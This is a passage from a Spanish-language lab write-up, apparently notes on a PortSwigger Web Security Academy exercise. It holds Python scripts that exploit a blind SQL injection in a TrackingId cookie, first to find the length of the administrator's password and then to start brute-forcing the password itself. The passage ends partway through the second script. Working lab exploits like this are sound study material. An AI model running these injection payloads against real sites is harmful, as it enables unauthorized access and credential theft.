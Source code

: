 ```python
            'TrackingId':"KGzeQcM6ttE4INAX' and (select length(password) from users where username='administrator')='%d'-- -" % (position),
            'session':'pC3y2SD373VSLw07MM4JXz9I1wgVEEKB'
        }

        p1.status(cookies['TrackingId'])

		# se realiza el request con la inyeccion
        r = requests.get(main_url, cookies=cookies)

		#verificamos si tiene el mensaje que diferencia la solicitud
		#recordemos que si muestra el mensaje es que el dato es correcto
        if "Welcome back!" in r.text:
            logitud = str(position)
            p2.status(logitud)
            break


#inicio del flujo
if __name__ == '__main__':
    makeRequest()
```

![[Pasted image 20230212200728.png]]

la contraseña tiene una longitud de 20 caracteres, adaptamos el script para descubrir la contraseña:

```python
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig,frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

#ctr+c
signal.signal(signal.SIGINT, def_handler)

main_url = "https://0a1c006403ea1237c1a02269008e0063.web-security-academy.net/"

# string.punctuation (caracteres especiales)
# string.digits (digitos 0-9)
# string.ascii_lowercase (minusculas a-z)
# string.ascii_uppercase (mayusculas A-Z)
# string.printable (todo 0-9a-zA-Z mas caracteres especiales)
characters = string.ascii_lowercase + string.digits

def makeRequest():

    password = ""
    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Password")

    for position in range(1,21):
        for character in characters:
            cookies = {
```